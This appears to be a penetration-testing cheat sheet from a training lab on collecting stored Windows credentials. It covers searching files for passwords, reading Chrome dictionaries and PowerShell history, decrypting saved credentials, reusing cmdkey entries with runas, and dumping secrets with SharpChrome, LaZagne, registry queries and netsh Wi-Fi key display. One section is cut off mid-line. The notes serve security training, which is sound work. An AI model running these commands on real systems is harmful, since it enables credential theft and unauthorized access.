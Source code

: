 #### Searching for Files

```bash
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```
#### Chrome Dictionary Files

Another interesting case is dictionary files. For example, sensitive information such as passwords may be entered in an email client or a browser-based application, which underlines any words it doesn't recognize. The user may add these words to their dictionary to avoid the distracting red underline.

```bash
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```
#### Unattended Installation Files

Search for `unattend.xml
#### PowerShell History File

Confirm location:

```bash
(Get-PSReadLineOption).HistorySavePath
```

Read:

```bash
gc (Get-PSReadLineOption).HistorySavePath
```
#### Decrypting PowerShell Credentials

```bash
PS C:\htb> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
PS C:\htb> $credential.GetNetworkCredential().username

bob


PS C:\htb> $credential.GetNetworkCredential().password

Str0ng3ncryptedP@ss!
```

#### Cmdkey

```bash
 cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: inlanefreight\bob
```

To use:

```bash
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```
#### Chrome

```bash
.\SharpChrome.exe logins /unprotect
```
#### LaZagne

```bash
.\lazagne.exe all
```
#### Registries

```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
````
#### WiFi

```bash
netsh wlan show profile
netsh wlan show profile <profile_name> key=clear
```




